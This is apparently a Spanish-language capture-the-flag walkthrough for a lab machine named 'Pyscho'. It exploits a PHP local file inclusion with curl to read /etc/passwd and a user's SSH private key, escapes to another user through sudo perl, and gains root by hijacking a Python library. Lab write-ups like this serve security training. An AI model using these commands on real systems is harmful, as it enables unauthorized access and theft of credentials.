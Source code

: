 <h1><b>Pyscho</b></h1>
<hr>

![Captura](https://github.com/user-attachments/assets/4290d8de-0c8d-42b3-9b46-cae794e60379)

<h2>Reconocimiento</h2>
<hr>
Realizamos un escaneo con nmap

<br>

![nmap](https://github.com/user-attachments/assets/3d6ed8c0-60c4-47d1-876d-efe438932484)

Despues se suele realizar otro escaneo para ver la version y mas informacion que podamos sacar con los script pero para esta maquina no es necesario. Viendo el puerto 80 y 22 abierto procedemos a ingresar a la pagina web <br>

![pagina](https://github.com/user-attachments/assets/71ee3486-a379-4012-a71f-914940acd462)

Viendo la pagina ninguno de los botones funciona, y al final de esta pordemos observar:<br>

![image](https://github.com/user-attachments/assets/1d22b092-2a49-4f5a-b251-980d29c98a27)

Podemos observar que hay un ERROR al final de la pagina, esto podia indicar que algo se esta cargando mal, pero es toda la informacion que nos dan, para entender mejor como se este originando posiblemente esta falla necesitaremos encontrar la tecnologia en la que esta funcionando la pagina web:<br>

![image](https://github.com/user-attachments/assets/c5a59054-3ca3-4709-9e5c-9977be824c16)

![image](https://github.com/user-attachments/assets/bc2f061c-4341-4f48-a271-fff0b18eecd7)

whatweb no nos da mucha informacion pero con gobuster vemos index.php.

Entonces,que tenemos hasta el momento?
<ul>
  <li>La pagina esta cargando mal algo</li>
  <li>Esta usando php</li>
</ul>

Con esto podemos llegar a la conclusion que la pagina esta usando un include() en php en cual podemos derivarlo a un <a href="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#file-inclusion"  target="_blank" >Local File Inclusion </a>

No conocemos el parametro dentro de index.php, por lo tanto podemos proceder a fuzzear con la herramienta <a href="https://github.com/xmendez/wfuzz"  target="_blank">wfuzz</a><br>

![image](https://github.com/user-attachments/assets/3cf9e007-1f79-43d1-b579-1cbcbe41ed8c)

Como podemos ver <b>secret</b> es el parametro que esta haciendo el include, primero veremos que usuarios hay en el sistema en /etc/cat

```bash
curl http://ip de la maquina/index.php?secret=/etc/passwd
```
![image](https://github.com/user-attachments/assets/f3820ae8-8ccb-46ee-aba3-6617ffb65217)
<br>
<h2>Foothold</h2>
<hr>

Podemos ver unas cuantas accounts, recordemos que la maquina cuenta con un servicio ssh, por lo tanto podemos realizar fuerza bruta a estas cuentas con hydra o buscar por las llaves. <br>

```bash
/home/luisillo/.ssh/id_rsa
/home/vaxei/.ssh/id_rsa
```
<br>
Probamos con las 2 y encotramos la llave para vaxei<br>

```bash
curl http://ip de la maquina/index.php?secret=/home/vaxei/.ssh/id_rsa
```
<br>

![image](https://github.com/user-attachments/assets/18b82ab6-82a0-4771-9ffb-0d3a714c0ae1)
<br>

Ahora entonces teniendo el ssh podriamos logearnos al menos que nos pidan una frase para ingresar.

>[!] Tip
>
>El archivo id_rsa debe tener permisos 600.
>
>Algunos id_rsa estan cifrados con un passphrase, que en ciertos casos necesitaras para que tu key sea aceptada<br>


![image](https://github.com/user-attachments/assets/919a1435-03f1-475a-a017-f15b279e44d6)

<br>
<h2>Lateral Movement</h2>
<hr>

De las primeras cosas que se suelen hacer en una maquina suele ser

```bash
sudo -l
id
Revisar /var/www/html
ps aux
etc
```

Con sudo -l nos saldra todos los permisos que podemos ejecutar como sudo si es que existe alguno, encontramos:
<br>

![image](https://github.com/user-attachments/assets/68746a92-227e-4048-b633-7394437417ff)

<br>

Ya que podemos ejecutar perl como luisillo, y al ser perl un lenguaje de programacion el proceso de escalado es sencillo con <a href="https://gtfobins.github.io/#"  target="_blank" >GTFOBins</a>


```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
<br>

![image](https://github.com/user-attachments/assets/cf2a6c26-88a3-4e52-b6f7-0c6ccd0094d2)

<br>
<h2>Escalada de Privilegios</h2>
<hr>

Igual que el anterior probramos sudo -l <br>

![image](https://github.com/user-attachments/assets/6f5712f2-6a00-45c4-8b06-edc0cb77f940)

<br>

Al parecer sudoers nos permite ejecutar el script mas no modificarlo.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Viendo el codigo vemos que las librerias se estan insertando de forma insegura, es ahi donde nosotros haremos un <a href="https://deephacking.tech/path-hijacking-y-library-hijacking/"  target="_blank" >Library Hijacking</a>.<br>

Crearemos un archivo llamado subprocess.py de esta forma:

```python
import os
os.system("/bin/bash -p")
```
<br>
Ejecutamos de esta manera:
<br>

![image](https://github.com/user-attachments/assets/0623128d-d221-4f67-a670-a838b457fcb2)

<br>

y de esta manera finalizamos la maquina.

HackTheBox: billyelcalvo
